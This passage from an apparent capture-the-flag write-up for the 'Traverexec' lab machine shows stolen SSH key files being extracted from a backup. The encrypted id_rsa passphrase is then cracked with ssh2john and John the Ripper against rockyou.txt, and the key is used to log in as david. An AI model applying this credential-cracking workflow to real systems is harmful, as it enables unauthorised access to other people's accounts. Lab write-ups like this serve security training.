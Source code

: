 └──╼ $tar xvf backup-ssh-identity-files.tgz

home/david/.ssh/

home/david/.ssh/authorized\_keys

home/david/.ssh/id\_rsa

home/david/.ssh/id\_rsa.pub

Going into the directory ./home/david/.ssh and looking at the id\_rsa key file, we see that it is encrypted

┌─\[rin@parrot\]─\[~/boxes/Traverexec/files/home/david/.ssh\]

└──╼ $cat id\_rsa

-----BEGIN RSA PRIVATE KEY-----

Proc-Type: 4,ENCRYPTED

DEK-Info: AES-128-CBC,477EEFFBA56F9D283D349033D5D08C4F

…

-----END RSA PRIVATE KEY-----

And sure enough, when we try and use it to SSH using the user david, we get prompted for a password. The password we used for the web page doesn't work however. Nor does it work when using it as david's actual login password. We can try and crack the id\_rsa key by using ssh2john.py which will extract a password hash from the SSH key in a format that John understands:

┌─\[✗\]─\[rin@parrot\]─\[~/boxes/Traverexec/files/home/david/.ssh\]

└──╼ $python2 /usr/share/john/ssh2john.py id\_rsa &gt; hash.txt

Again, we can then crack this with John The Ripper:

┌─\[rin@parrot\]─\[~/boxes/Traverexec/files/home/david/.ssh\]

└──╼ $john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

Using default input encoding: UTF-8

Loaded 1 password hash \(SSH \[RSA/DSA/EC/OPENSSH \(SSH private keys\) 32/64\]\)

Cost 1 \(KDF/cipher \[0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES\]\) is 0 for all loaded hashes

Cost 2 \(iteration count\) is 1 for all loaded hashes

Will run 2 OpenMP threads

Note: This format may emit false positives, so it will keep trying even after

finding a possible candidate.

Press 'q' or Ctrl-C to abort, almost any other key for status

hunter \(id\_rsa\)

When we try and SSH now and use the password hunter, we get in!

┌─\[✗\]─\[rin@parrot\]─\[~/boxes/Traverexec/files/home/david/.ssh\]

└──╼ $ssh -i ./id\_rsa david@traverexec.htb
